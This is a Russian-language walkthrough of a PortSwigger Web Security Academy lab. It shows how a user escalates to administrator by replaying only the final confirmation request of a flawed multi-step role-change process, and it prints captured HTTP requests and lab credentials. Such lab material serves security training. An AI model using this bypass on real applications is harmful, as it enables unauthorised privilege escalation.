 В этой лаборатории есть панель администратора с некорректным многошаговым процессом изменения роли пользователя. Вы можете ознакомиться с панелью администратора, войдя в систему с использованием учетных данных `administrator:admin`.

Чтобы решить лабораторную работу, войдите в систему, используя учетные данные `wiener:peter`, и воспользуйтесь недостатками контроля доступа, чтобы повысить себя до уровня администратора.


## Дано

- для изучения учётка админа `administrator:admin`
- наша учётка `wiener:peter`
- уязвимость с некорректным многошаговым процессом изменения роли пользователя

## Задача

- повысить себя до уровня админа wiener

# Решение

1. Изучить функционал а именно запросы которые отправлются на сервер для обновления пользователя

1 Запрос на доступ к панели
```
GET /admin HTTP/1.1
Host: 0ac10050030cc54381150d3c001500c1.web-security-academy.net
Cookie: session=IxHN8Uv7d9LtqB3WSER4lRJ0xnpFfWPH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0ac10050030cc54381150d3c001500c1.web-security-academy.net/my-account?id=administrator
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

2 Запрос на обновление пользователя
```
POST /admin-roles HTTP/2
Host: 0ac10050030cc54381150d3c001500c1.web-security-academy.net
Cookie: session=IxHN8Uv7d9LtqB3WSER4lRJ0xnpFfWPH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0ac10050030cc54381150d3c001500c1.web-security-academy.net
Referer: https://0ac10050030cc54381150d3c001500c1.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

username=carlos&action=upgrade
```

3 Запрос на подтверждения изменения
```
POST /admin-roles HTTP/2
Host: 0ac10050030cc54381150d3c001500c1.web-security-academy.net
Cookie: session=IxHN8Uv7d9LtqB3WSER4lRJ0xnpFfWPH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0ac10050030cc54381150d3c001500c1.web-security-academy.net
Referer: https://0ac10050030cc54381150d3c001500c1.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

action=upgrade&confirmed=true&username=carlos
```

2. Заходим под собой и пробуем с 3 запроса реализовать повышение